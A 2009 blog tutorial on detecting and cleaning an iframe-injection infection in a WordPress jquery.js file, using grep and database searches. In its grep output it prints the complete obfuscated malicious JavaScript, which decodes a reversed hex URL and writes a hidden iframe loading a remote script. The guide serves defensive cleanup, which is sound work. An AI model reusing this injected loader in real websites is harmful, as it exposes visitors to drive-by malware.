```yaml
---
title: 'Finding & Removing malicious iframe exploit from WordPress'
author: rahul286
date: 2009-12-07
url: /finding-removing-malicious-iframes-from-wordpress/
views:
  - 129
dsq_thread_id:
  - 2947106032
categories:
  - Tutorial
tags:
  - Exploit
  - Iframe
  - Injection
  - Security
  - Wordpress
  - xblacnknet
---
```

Sometime back our one under-construction site was infected with iframe injection in its wordpress theme. As it was not live site, I didn&#8217;t care much. Today, my friend Federico&#8217;s company site &#8211; <a href="http://helios-designs.net/" onclick="_gaq.push(['_trackEvent', 'outbound-article', 'http://helios-designs.net/', 'Helios Design']);" >Helios Design</a> was infected with the same exploit.

## First&#8230; About the iframe exploit!

This exploit injected some malicious code into wordpress&#8217;s ***&#8220;wp-includes/js/jquery/jquery.js&#8221;*** file, highlighted in the following screenshot.

<a href="http://www.wpveda.com/files/2009/12/Iframe-injection-in-jquery.js-Wordpress-Security-Issue-1.jpg" onclick="_gaq.push(['_trackEvent', 'outbound-article', 'http://www.wpveda.com/files/2009/12/Iframe-injection-in-jquery.js-Wordpress-Security-Issue-1.jpg', '']);" ><img class="alignnone size-large  wp-image-51365" src="http://www.wpveda.com/files/2009/12/Iframe-injection-in-jquery.js-Wordpress-Security-Issue-1-590x345.jpg" alt="Iframe injection in jquery.js - WordPress Security Issue-1" width="590" height="345" /></a>

When compared to original wordpress file &#8211; <a href="http://svn.automattic.com/wordpress/tags/2.8.4/wp-includes/js/jquery/jquery.js" onclick="_gaq.push(['_trackEvent', 'outbound-article', 'http://svn.automattic.com/wordpress/tags/2.8.4/wp-includes/js/jquery/jquery.js', 'http://svn.automattic.com/wordpress/tags/2.8.4/wp-includes/js/jquery/jquery.js']);" >http://svn.automattic.com/wordpress/tags/2.8.4/wp-includes/js/jquery/jquery.js</a>, you can see some extra code was added at the top.

As a result, at runtime an iframe gets created which was executing a remote script. It also broke sites markup resulting in bad SEO and failed validation. Such exploits can further act as a ground to launch bigger attacks or may infect visitor&#8217;s computer.

If Google visits your site with such codes, your site may get blocked in browsers like Firefox, Chrome and Safari. In those cases, your visitor will get a big security alert when they attempt to visit your site.

## How-To fix this&#8230;

Find the exact codes that are inserted in your theme. In my friend&#8217;s case, following codes were injected:

<a href="http://www.wpveda.com/files/2009/12/iframe-codes-in-theme-2.jpg" onclick="_gaq.push(['_trackEvent', 'outbound-article', 'http://www.wpveda.com/files/2009/12/iframe-codes-in-theme-2.jpg', '']);" ><img class="alignnone size-full wp-image-95" src="http://www.wpveda.com/files/2009/12/iframe-codes-in-theme-2.jpg" alt="iframe codes in theme-2" width="588" height="139" /></a>

Now searching for *&#8220;src&#8221;* link wont be good idea. The guy who can inject above codes into wordpress (via third-party codes most probably) will not store its src URL in plain-text. Also, rather than searching for complete code, its better to search different parts.

In this case &#8211; I decided to search *&#8220;uKUwc&#8221;*,  *&#8220;xblacnknet.cn&#8221;* and *&#8220;kDaxV&#8221;* separately.

As far as searching is concerned there are 2 places to search &#8211; database and filesystem.

**For database search you can use** &#8211; phyMyAdmin. If you don&#8217;t have phpMyAdmin, just install <a href="http://wordpress.org/extend/plugins/wp-phpmyadmin/" onclick="_gaq.push(['_trackEvent', 'outbound-article', 'http://wordpress.org/extend/plugins/wp-phpmyadmin/', 'WP-phpMyAdmin plugin']);" >WP-phpMyAdmin plugin</a>.

**To search filesystem** &#8211; open shell to your server and execute ***grep*** command like below:

`grep -H -r "kDaxV" /path/to/wp-root-dir`

Substitute *&#8220;/path/to/wp-root-dir&#8221;* with filesystem path to the directory where wordpress is installed. &#8220;kDaxV&#8221; is a search string. Try different search strings unless u get any result. &#8220;-r&#8221; forces grep to search recursively and &#8220;-H&#8221; make it print filenames. Above command will perform search inside file contents.

For more details on this command <a href="http://www.cyberciti.biz/faq/howto-search-find-file-for-text-string/" onclick="_gaq.push(['_trackEvent', 'outbound-article', 'http://www.cyberciti.biz/faq/howto-search-find-file-for-text-string/', 'refer this article by Vivek Gite']);" >refer this article by Vivek Gite</a>.

Executing above command resulted in following output:

> ./wp-includes/js/jquery/jquery.js:var/\*\*/YFiXz/\*\*/=/\*\*/document;function/\*\*/ugGMs(czlmZ){/\*\*/var/\*\*/cZdbo/\*\*/=/\*\*/&#8221;&#8221;,/\*\*/aujtC/\*\*/=/\*\*/0;for/\*\*/(aujtC=czlmZ.length-1;aujtC>=0;aujtC&#8211;){cZdbo/\*\*/+=/\*\*/czlmZ.charAt(aujtC);}/\*\*/return/\*\*/cZdbo;}function/\*\*/xHiRm(UbqcV){UbqcV/\*\*/=/\*\*/UbqcV.replace(/[.]/g,/\*\*/&#8221;%&#8221;);UbqcV/\*\*/=/\*\*/unescape(UbqcV);return/\*\*/ugGMs(UbqcV);}function/\*\*/WDxZS(){document.write(&#8220;<style>.kDaxV{width:0%;height:0%;border:none;}</style>&#8221;);var/\*\*/KJKbL/\*\*/=/\*\*/&#8221;<iframe/\*\*/name=&#8221;3&#8243; id=&#8221;uKUwc&#8221; src=&#8221;$&#8221; class=&#8221;kDaxV&#8221;></iframe>&#8221;;var/\*\*/Xqvgy/\*\*/=/\*\*/KJKbL.replace(/[+$]/g,/\*\*/xHiRm(&#8220;.69.67.63.2e.76.2f.76.2f.6e.69.62.2d.69.67.63.2f.6e.63.2e.74.65.6e.6b.63.61.6c.62.78.2f.2f.3a.70.74.74.68&#8243;));return/**/Xqvgy;}YFiXz.writeln(WDxZS());

Once you find exact file, either you can remove malicious codes from it or replace that file with original version form <a href="http://svn.automattic.com/wordpress/" onclick="_gaq.push(['_trackEvent', 'outbound-article', 'http://svn.automattic.com/wordpress/', 'wordpress repo']);" >wordpress repo</a>.

Hope this helps someone out there! <img src="http://devilsworkshop.org/wp-includes/images/smilies/simple-smile.png" alt=":-)" class="wp-smiley" style="height: 1em; max-height: 1em;" />
